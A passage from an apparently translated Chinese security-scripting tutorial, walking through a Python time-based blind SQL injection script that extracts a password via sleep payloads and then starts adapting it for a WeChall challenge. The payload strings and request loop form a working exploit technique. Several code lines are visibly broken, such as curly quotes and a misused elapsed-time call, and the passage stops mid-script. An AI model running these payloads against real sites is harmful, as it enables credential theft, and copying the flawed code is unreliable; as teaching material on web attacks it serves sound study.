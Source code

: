 ```py
times = []
print “Kicking off the attempt”
cookies = {'cookie name': 'Cookie value'}
```

我们在字典中设置了我们的有效载荷以及一个提交按钮。攻击字符串足够简单，通过一些解释就可以理解。初始的撇号必须被转义为字典内的文本。该撇号最初中断了 SQL 命令，并允许我们输入自己的 SQL 命令。接下来，我们说在第一个命令失败的情况下，执行以下命令与`OR`。然后，我们告诉服务器为密码列中第一行中的每个字符休眠一秒。最后，我们用分号关闭语句，并用井号（或者如果你是美国人和/或错误的话，用英镑）注释掉任何尾随字符：

```py
payload = {'injection': '\'or sleep char_length(password);#', 'Submit': 'submit'}
```

然后我们将服务器响应所花费的时间长度设置为`firstreponsetime`参数。我们将使用这个参数来理解我们需要通过这种方法暴力破解多少个字符：

```py
firstresponsetime = str(req.elapsed).total_seconds
```

我们创建一个循环，将`x`设置为从标识的字符串的长度为`1`到所有数字，并对每个数字执行一个操作。我们从这里开始是因为 MySQL 从`1`开始计数，而不是像 Python 一样从零开始：

```py
for x in range(1, firstresponsetime):
```

我们制作了一个类似之前的有效载荷，但这次我们说在密码列的密码的第一个字符的 ascii 值处休眠。因此，如果第一个字符是小写 a，那么对应的 ascii 值是 97，因此系统会休眠 97 秒。如果是小写 b，它将休眠 98 秒，依此类推：

```py
payload = {'injection': '\'or sleep(ord(substr(password, '+str(x)+', 1)));#', 'Submit': 'submit'}
```

我们每次为字符串中的每个字符位置提交我们的数据。

```py
req = requests.post('<target url>', data=payload, cookies=cookies)
```

我们获取每个请求的响应时间，记录服务器休眠的时间，然后将该时间从 ascii 值转换回字母：

```py
responsetime = req.elapsed.total_seconds
  a = chr(responsetime)
```

对于每次迭代，我们打印出当前已知的密码，然后最终打印出完整的密码：

```py
answer = ''.join(times)
print “Recovered String: “+ answer
```

## 还有更多...

这个脚本提供了一个可以适应许多不同情况的框架。Wechall，这个网站挑战网站，设置了一个有时间限制的盲目 SQLi 挑战，必须在很短的时间内完成。以下是我们的原始脚本，已经适应了这个环境。正如你所看到的，我不得不考虑到不同值的较小时间差异和服务器延迟，并且还包括了一个检查方法，每次重置测试值并自动提交它：

```py
import subprocess
import requests

def round_down(num, divisor):
    return num - (num%divisor)

subprocess.Popen([“modprobe pcspkr”], shell=True)
subprocess.Popen([“beep”], shell=True)

values = {'0': '0', '25': '1', '50': '2', '75': '3', '100': '4', '125': '5', '150': '6', '175': '7', '200': '8', '225': '9', '250': 'A', '275': 'B', '300': 'C', '325': 'D', '350': 'E', '375': 'F'}
times = []
answer = “This is the first time”
cookies = {'wc': 'cookie'}
```